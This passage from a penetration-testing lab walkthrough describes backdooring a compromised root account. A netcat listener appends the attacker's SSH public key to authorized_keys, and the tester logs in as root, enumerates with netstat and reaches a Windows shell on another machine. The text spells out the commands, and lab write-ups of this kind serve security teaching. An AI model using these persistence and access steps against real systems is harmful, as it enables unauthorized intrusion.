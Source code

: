 Public IP address:  165.227.86.197
Once again we have access to place our id_rsa.pub file in /root/.ssh/authorized keys.

In the /root/.ssh folder, we setup a nc listener that will directly append any data it receives into authorized_keys.  This is a simplification of the steps we used earlier, cutting out the need to first re-direct the file into a new file before appending its contents to authorized_keys:

    cd /root/.ssh
    nc -lvnp 17011 >> authorized_keys

![](/images/boykin_lab2/72. authorized_keys.png)

On Kali, from the /root/.ssh folder, run the nc connection again:

    nc 165.227.86.197 < id_rsa.pub

![](/images/boykin_lab2/73. nc_file_transfer.png)

Once you run the command on Kali and see the “Connection received” message on Target machine 3, you can Ctrl+c the nc running on Kali to close the connection.  In the above screenshot we also ran the “ls -la” command afterwards to show the file size changed on authorized_keys which lets us know the data was appended.  

Now we can ssh directly to Target machine 3 from our Kali machine:

    ssh -i id_rsa root@165.227.86.197

![](/images/boykin_lab2/74. ssh.png)

Once we have access directly from our Kali machine, we can kill the other sessions by Ctrl+c and/or typing exit in the remaining terminal windows.

Now we can continue on with enumeration:

    netstat -ptuna

![](/images/boykin_lab2/75. netstat.png)

And here we see there are several ports listening on localhost (127.0.0.1) and running from ssh, which means they are likely ssh tunnel/port forwards to another machine.  At the end of this list we see a “Foreign Address” that is not one of the ones we previously saw in this lab, also connected via ssh: 70.242.177.5.  It is likely these port forwards are going to this machine, or at the very least have been initiated by this machine.

These ports are some common Windows ports, however working through them using nc does not yield anything of interest until:

    nc 127.0.0.1 5900

![](/images/boykin_lab2/76. nc_5900.png)

And we have what appears to be a user shell on Target machine 4, a Windows 10 machine.  

<p>&nbsp;</p>
=======================================================

## Target Machine 4
